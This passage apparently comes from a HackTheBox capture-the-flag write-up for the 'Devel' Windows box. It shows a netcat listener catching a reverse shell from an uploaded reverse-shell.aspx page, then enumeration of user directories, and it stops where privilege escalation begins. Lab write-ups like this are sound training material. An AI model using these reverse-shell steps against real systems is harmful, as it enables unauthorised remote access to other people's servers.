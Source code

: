 Once done, you can visit `/reverse-shell.aspx`, turn on netcat listener and get back a reverse shell

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.5] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

I, then, changed to the `Users` directory to retrieve the flag

```
c:\windows\system32\inetsrv>cd c:\users
cd c:\users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.697.743.360 bytes free

c:\Users>cd babis
cd babis
Access is denied.

c:\Users>cd Administrator
cd Administrator
Access is denied.
```

There was a user `babis` and `Administrator` directory and I was denied access to both of them.

## Privilege Escalation
So, then, the first thing I looked at was `systeminfo` to find out the `OS Name`, `System Type`, and other stuff
